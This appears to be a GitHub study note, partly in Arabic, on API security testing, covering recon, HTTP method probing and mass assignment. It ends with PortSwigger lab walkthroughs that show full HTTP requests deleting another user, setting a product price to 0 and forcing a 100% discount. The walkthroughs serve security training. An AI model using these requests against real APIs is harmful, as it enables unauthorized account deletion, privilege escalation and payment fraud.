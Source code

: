 # API testing

- <details>
     <summary>API Recon & documentation</summary>


  # 🛡️ API Testing - شرح مبسط
  
  ## 📌 ما هو **API Testing**؟
  - **API (Application Programming Interface)** هو الوسيط الذي يسمح للبرامج أو السيرفرات بالتواصل مع بعضها.
  - أي موقع ديناميكي (dynamic) يتكون من APIs:
    - مثال: عند تسجيل الدخول **login** → API تستقبل الـ username/password.
    - مثال: عند جلب **profile info** → API تسحب البيانات من قاعدة البيانات وتعيدها في صورة JSON.
  
  ⚠️ إذا كانت الـ API بها ثغرة → هذا قد يؤثر على **Confidentiality, Integrity, Availability (CIA)**.
  
  ---
  
  ## 📌 العلاقة بين Web Testing و API Testing
  - معظم ثغرات الويب (SQLi, XSS, Auth bypass) يمكن أن تظهر في APIs.
  - الفرق أن **API Testing** يكشف أحيانًا Endpoints غير مستخدمة في الواجهة الأمامية (front-end)، لكنها مدعومة على السيرفر → توسع الـ attack surface.
  
  ---
  
  ## 📌 خطوات الـ Recon (استكشاف API)
  
  ### 1. **Identify Endpoints** (تحديد الـ endpoints)
  الـ endpoint هو مكان استقبال الطلبات.
  
  مثال:
  ```http
  GET /api/books HTTP/1.1
  Host: example.com
  ```
  
  - `/api/books` → endpoint  
  - يعيد قائمة من الكتب
  
  مثال آخر:
  - `/api/books/mystery` → يعيد قائمة بكتب الغموض
  
  ---
  
  ### 2. **افهم كيفية التعامل مع الـ API**
  لكي تبدأ اختبار يجب أن تعرف:
  - ✅ الـ input parameters (إجباري / اختياري)  
  - ✅ الـ HTTP methods المدعومة (GET, POST, PUT, DELETE…)  
  - ✅ الـ media formats (JSON, XML)  
  - ✅ هل يوجد Rate limiting (عدد الطلبات المسموح بها)  
  - ✅ آلية Authentication (Token / API Key / JWT)  
  
  ---
  
  ## 📌 API Documentation (التوثيق)
  - **Human-readable**: توثيق مكتوب يشرح الأمثلة والاستخدام.  
  - **Machine-readable**: ملفات JSON/XML (مثل Swagger أو OpenAPI).  
  
  🔍 **أماكن شائعة للتوثيق**:
  - `/api`
  - `/swagger/index.html`
  - `/openapi.json`
  
  مثال: لو وجدت `/api/swagger/v1/users/123`  
  جرب أيضًا:
  - `/api/swagger/v1`  
  - `/api/swagger`  
  - `/api`  
  
  🛠 يمكنك استخدام **Burp Scanner** أو **Intruder** لتجربة common paths.
  
  ---
  
  ## 📌 الخلاصة
  - **API Testing = Web Testing + Hidden attack surface**
  - تبدأ بالـ **Recon**: ابحث عن endpoints + documentation  
  - افهم كيف تعمل الـ API (inputs, methods, auth)  
  - ثم اختبر الثغرات مثل:
    - **SQLi داخل JSON**
    - **Auth bypass بالـ tokens**
    - **Server-side Parameter Pollution (SSPP)**
    - **Excessive Data Exposure** (إرجاع بيانات حساسة/زائدة)
  

  
  </details>





- <details>
     <summary>Interacting with API endpoints</summary>

     
     
     # 🛡️ API Testing 
     
     ## 1️⃣ Machine-readable Documentation (التوثيق القابل للمعالجة آليًا)
     - أحيانًا بتلاقي توثيق API في شكل **JSON / YAML** (زي Swagger أو OpenAPI).  
     - تقدر تستخدم Tools عشان تحللها أو تختبر الـ endpoints مباشرة.  
     
     🛠 الأدوات:
     - **Burp Scanner** → يقرأ OpenAPI docs ويعمل crawl & audit  
     - **OpenAPI Parser BApp** → تحليل OpenAPI داخل Burp Suite  
     - **Postman / SoapUI** → لاختبار الـ endpoints يدويًا أو أوتوماتيك  
     
     ---
     
     ## 2️⃣ Identifying API Endpoints (تحديد الـ endpoints)
     - حتى لو عندك documentation، لازم تراجع التطبيق بنفسك:  
       - ساعات الـ documentation قديمة أو ناقصة  
       - من خلال التطبيق نفسه ممكن تلاقي endpoints غير مذكورة  
     
     👀 أماكن محتملة للـ Endpoints:
     - **/api/** في الـ URLs  
     - **JavaScript files** → ممكن تحتوي API calls مخفية  
     - **Burp Scanner** → يلتقط بعض الـ endpoints  
     - **JS Link Finder BApp** → استخراج أعمق من ملفات JS  
     
     ---
     
     ## 3️⃣ Interacting with Endpoints (التفاعل مع الـ endpoints)
     - استخدم الأدوات:  
       - **Burp Repeater** → تجربة يدوية  
       - **Burp Intruder** → تجربة أوتوماتيكية  
     
     💡 جرب تغيّر:
     - **HTTP method** (GET, POST, PUT…)  
     - **Media type** (JSON, XML…)  
     - راقب **error messages** → ممكن تكشف تفاصيل عن الباك اند أو باراميترات إضافية  
     
     ---
     
     ## 4️⃣ Identifying Supported HTTP Methods
     - الـ **HTTP Method** يحدد نوع العملية:  
       - `GET` → جلب البيانات  
       - `PATCH` → تعديل جزئي  
       - `OPTIONS` → يكشف الـ methods المدعومة  
     
     👨‍💻 مثال على endpoint:
     ```
     GET /api/tasks        → يرجع قائمة المهام  
     POST /api/tasks       → ينشئ مهمة جديدة  
     DELETE /api/tasks/1   → يحذف مهمة برقم 1  
     ```
     
     🛠 Burp Intruder:
     - يحتوي على قائمة HTTP verbs جاهزة  
     - جربها تلقائيًا على endpoint لكشف methods إضافية  
     
     ⚠️ مهم: جرب على بيانات **قليلة الأهمية (low-priority)** لتجنب كسر أو تغيير بيانات production  
     
     ---
     
     ## 5️⃣ Identifying Supported Content Types (أنواع المحتوى)
     - الـ API غالبًا بتتوقع نوع محتوى محدد مثل `application/json`  
     - تغيير الـ Content-Type ممكن يفتح هجوم جديد  
     
     👀 الفوائد:
     - Trigger أخطاء تكشف معلومات  
     - Bypass دفاعات ضعيفة  
     - استغلال اختلاف المعالجة (مثال: آمن مع JSON لكن ضعيف مع XML)  
     
     🛠 Burp:
     - غيّر Header:
       ```http
       Content-Type: application/xml
       ```
     - وحوّل الـ body من JSON إلى XML  
     - **Content Type Converter BApp** يساعد في التحويل التلقائي بين JSON ↔ XML  
     
     ---
     
     ## 📌 الخلاصة
     - 📑 لو لقيت **Machine-readable docs** → حللها بالأدوات (Burp Scanner, Postman)  
     - 🔍 حتى مع docs → دايمًا اعمل Recon يدوي (URLs + JS files)  
     - 🎯 جرّب تتفاعل مع endpoints (HTTP methods, Content types)  
     - ⚡ الهدف: اكتشاف وظائف إضافية + ثغرات (SQLi, Auth bypass, Injection …)
     



     
  </details>





- <details>
     <summary>Mass assignment vulnerabilities</summary>



     
     
     
     # API Recon and Mass Assignment Vulnerabilities
     
     ## Using Intruder to Find Hidden Endpoints
     Once you have identified some initial API endpoints, you can use **Burp Intruder** to uncover hidden endpoints.
     
     **Example:**
     ```
     PUT /api/user/update
     ```
     
     You can test for hidden endpoints by replacing `/update` with common words like `delete`, `add`, etc., using a **wordlist**.
     
     👉 Use wordlists based on:
     - Common API naming conventions.
     - Industry terms.
     - Application-specific terms (from recon).
     
     ---
     
     ## Finding Hidden Parameters
     During API recon, you may find undocumented parameters that can affect application behavior.
     
     ### Tools to Help:
     - **Burp Intruder** → use a wordlist of common parameters.
     - **Param Miner BApp** → can guess up to 65,536 parameters automatically.
     - **Content Discovery Tool** → finds hidden/unlinked parameters.
     
     ---
     
     ## Mass Assignment Vulnerabilities
     Mass assignment (auto-binding) happens when frameworks automatically bind request parameters to internal object fields.
     
     This may expose unintended hidden parameters.
     
     ### Identifying Hidden Parameters
     You can often spot hidden parameters by analyzing API responses.
     
     **Example:**
     ```
     PATCH /api/users/
     {
         "username": "wiener",
         "email": "wiener@example.com"
     }
     ```
     
     A concurrent response from:
     ```
     GET /api/users/123
     {
         "id": 123,
         "name": "John Doe",
         "email": "john@example.com",
         "isAdmin": "false"
     }
     ```
     
     This hints that `id` and `isAdmin` may be hidden parameters.
     
     ---
     
     ## Testing for Mass Assignment
     Try modifying hidden parameters in requests.
     
     ### Test 1 - Normal update with hidden parameter:
     ```
     {
         "username": "wiener",
         "email": "wiener@example.com",
         "isAdmin": false
     }
     ```
     
     ### Test 2 - Invalid value for hidden parameter:
     ```
     {
         "username": "wiener",
         "email": "wiener@example.com",
         "isAdmin": "foo"
     }
     ```
     
     If behavior changes → parameter is being processed.
     
     ### Exploitation - Privilege Escalation:
     ```
     {
         "username": "wiener",
         "email": "wiener@example.com",
         "isAdmin": true
     }
     ```
     
     If bound without validation, the user may gain **admin privileges**.
     
     ---
     
     ## Key Takeaways
     - Intruder helps find hidden endpoints.
     - Param Miner & Intruder can find hidden parameters.
     - Mass assignment can expose sensitive parameters like `isAdmin`.
     - Always test with valid and invalid values to confirm vulnerability.
     
     





  </details>

























































































----




# **`API Testing Labs`**


<details>
     <summary>Lab: Exploiting an API endpoint using documentation</summary>

#### 1. login with **`wiener : peter`**
#### 2. try to update your email and intercept the request

```http
PATCH /api/user/wiener HTTP/1.1
Host: 0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Cookie: session=vW7MD6H4rzuStWRQySgwcgcxMJiD8Rkk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 28
Origin: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive


{
  "email":"user@EXAMPLE.com"
}
```

**`Response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 48


{
  "username":"wiener",
  "email":"user@EXAMPLE.com"
}
```

---

> ## what if we change user


```http
PATCH /api/user/carlos HTTP/1.1
Host: 0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Cookie: session=vW7MD6H4rzuStWRQySgwcgcxMJiD8Rkk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 28
Origin: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive


{
  "email":"plapla@EXAMPLE.com"
}
```

**`Response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 48


{
  "username":"carlos",
  "email":"plapla@EXAMPLE.com"
}
```


> ## now try to change method from **`patch`** to **`DELETE`**

```http
DELETE /api/user/carlos HTTP/2
Host: 0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Cookie: session=vW7MD6H4rzuStWRQySgwcgcxMJiD8Rkk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 28
Origin: https://0a2c00a70361226d82a4ab5100250023.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers


{
  "email":"user@EXAMPLE.com"
}
```

**`Response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 48


{
  "status":"user deleted"
}
```


> ## if we set path to **`/api`**

<img width="952" height="699" alt="image" src="https://github.com/user-attachments/assets/49f6beef-4bee-4ed1-a971-259b69a08f35" />


     
</details>




<details>
     <summary>Lab: Finding and exploiting an unused API endpoint</summary>

> 1. login as **`wiener : peter`**
> 2. select product and see the request


```http
GET /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

```


### **`response`**


```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 97


{
  "price":"$1337",
  "message":"Buy quick, we are low on stock! 4 purchased in the last 14 minutes!"
}
```

---

> ## first try **`OPTIONS`** header to see which methods are allowed


```http
OPTIONS /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

```


### **`response`**


```http
HTTP/2 405 Method Not Allowed
Allow: GET, PATCH
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```

> ## found that **`GET, PATCH`** only allowd
> - now change method to **``PATCH``**


```
```http
PATCH /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

```

### **`response`**

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 93


{
  "type":"ClientError",
  "code":400,
  "error":"Only 'application/json' Content-Type is supported"
}
```

> ## we found that content type must be json we will add this header
> - **`Content-Type: application/json`**
> - add json content with new price

```http
PATCH /api/products/1/price HTTP/2
Host: 0a09004d047849308072fdd700a40031.web-security-academy.net
Cookie: session=RBZXiC5oIDzUl6EywnO4JLRjUHhyQUTO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a09004d047849308072fdd700a40031.web-security-academy.net/product?productId=2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
Content-Type: application/json;

{
  "price":0
}


```

<img width="1434" height="540" alt="image" src="https://github.com/user-attachments/assets/bc003da5-54f5-49db-8f06-713ecb5022a1" />




     
</details>





<details>
     <summary>Lab: Exploiting a mass assignment vulnerability</summary>



> ### login with **`weiner : peter`**
> - select product and add it to cart
> - go to cart
> - see the requests

```http
GET /api/checkout HTTP/2
Host: 0ae7002004807898805f0da700d00007.web-security-academy.net
Cookie: session=SBR2e8LB8O2ZGiIREmLK2HR0S0aGCHsc
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae7002004807898805f0da700d00007.web-security-academy.net/cart
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
```

### **`response`**

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 153


{
   "chosen_discount":{
       "percentage":0
   },"chosen_products":[
      {
          "product_id":"1",
          "name":"Lightweight \"l33t\" Leather Jacket",
          "quantity":1,"item_price":133700
      }
  ]
}
```

----

> ## first set method to **`options`** to see which methods are allowed


```http
OPTIONS /api/checkout HTTP/2
Host: 0ae7002004807898805f0da700d00007.web-security-academy.net
Cookie: session=SBR2e8LB8O2ZGiIREmLK2HR0S0aGCHsc
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae7002004807898805f0da700d00007.web-security-academy.net/cart
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
```

### **`response`**

```http
HTTP/2 405 Method Not Allowed
Allow: POST, GET
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20


"Method Not Allowed"
```

---

> ## Good now we can use **`post`** method to update **`discount percentage`** to `100``


```http
POST /api/checkout HTTP/2
Host: 0ae7002004807898805f0da700d00007.web-security-academy.net
Cookie: session=SBR2e8LB8O2ZGiIREmLK2HR0S0aGCHsc
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae7002004807898805f0da700d00007.web-security-academy.net/cart
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

{
   "chosen_discount":{
       "percentage":100
   },"chosen_products":[
      {
          "product_id":"1",
          "name":"Lightweight \"l33t\" Leather Jacket",
          "quantity":1,"item_price":133700
      }
  ]
}


```

### **`response`**

```http
HTTP/2 201 Created
Location: /cart/order-confirmation?order-confirmed=true
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```



<img width="1516" height="700" alt="image" src="https://github.com/user-attachments/assets/8252e86b-421f-4c85-885b-8942edf5392c" />

<img width="1346" height="679" alt="image" src="https://github.com/user-attachments/assets/22e73718-d2c2-4d2b-8949-07d1caba2875" />




     
</details>


































